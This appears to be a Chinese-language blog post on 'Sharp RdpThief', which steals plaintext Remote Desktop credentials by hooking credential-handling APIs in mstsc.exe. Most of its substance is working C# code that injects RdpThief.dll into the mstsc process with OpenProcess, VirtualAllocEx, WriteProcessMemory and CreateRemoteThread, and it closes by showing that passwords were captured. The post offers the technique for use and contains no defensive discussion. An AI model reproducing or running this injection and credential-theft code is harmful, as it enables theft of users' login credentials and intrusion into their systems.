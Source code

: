```yaml
---
layout: post
title: Sharp Rdpthief

---
```


## 0x01

键盘记录程序通常用于捕获明文凭证。但是，很难用通用的键盘记录程序隔离密码，而且冗长的会话可能导致非常详细的输出，很难解析。

然后就有了rdp thief，通过API Hooking 从 mstsc.exe 中提取明文密码。

[https://github.com/0x09AL/RdpThief](https://github.com/0x09AL/RdpThief)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210924110524.png)

## 0x02

利用原理利用 API  HOOK相关 API 处理完 mstsc 中输入 的明文凭据后，将其窃取。 MDSec 发现负责处理用户名，密码和域 的 API 分 别 为CredIsMarshaledCredentialW,CryptProtectMemory 和SspiPrepareForCredRead。

RDPthief要在用户输入账号密码前先把dll注入到mstsc进程中，找一个sharp dll注入模板

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210924113616.png)

注入的进程名称改为mstsc

```c#
Process[] expProc = Process.GetProcessesByName("mstsc");
```

更改之后的代码如下

```c#
    static void Main(string[] args)
    {
        String dir =
       Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
        String dllName = "C:\\Windows\\Temp\\RdpThief.dll";
        Process[] mstscProc = Process.GetProcessesByName("mstsc");
        int pid = mstscProc[0].Id;

        IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        IntPtr outSize;
        Boolean res = WriteProcessMemory(hProcess, addr,
       Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
        IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),
       "LoadLibraryA");
        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
       addr, 0, IntPtr.Zero);
    }
```

## 0x03

成功捕获windows密码

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210924114935.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210924114857.png)


